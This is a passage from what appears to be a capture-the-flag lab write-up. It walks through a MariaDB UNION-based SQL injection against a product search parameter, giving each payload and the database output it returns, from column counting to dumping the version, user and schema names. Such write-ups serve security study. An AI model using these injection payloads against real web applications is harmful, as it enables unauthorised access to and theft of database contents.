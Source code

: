                     Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Asus'''  at line 1                     </tbody>
            </table>
        </div>



I can make the query good again with a comment, `productName=Asus'#`,
which returns a `<tbody>` of:



    <td>No Products Found</td><td> </td><td> </td><td> </td><td> </td>



#### Find Number of Columns

Next I'll try to do a union injection, and I'll need to figure out how
many columns are returned. I'll start with
`productName=Asus' union select 1#`, and it returns:



    Error: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of column



Very nice / sloppy to leave the error messages in. I'll add columns to
my select until I get to `productName=Asus' UNION select 1,2,3,4,5,6#`,
when it returns:



    <tr><td>1</td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>



#### Enumerate

Now I'll start to pull information out of this database. I like the
[Pentest Monkey MySQL Injection Cheat
Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
as a starting reference. I'll get the version, current user, and current
database with \` Result productName=Asus' UNION select
@@version,user(),database(),4,5,6#\`:



    <tr><td>10.4.8-MariaDB</td><td>manager@localhost</td><td>warehouse</td><td>4</td><td>5</td><td>6</td></tr>



I can list the databases with
`productName=Asus' union select schema_name,2,3,4,5,6 from information_schema.schemata#`
to see three dbs:

-   information_schema
-   mysql
-   warehouse
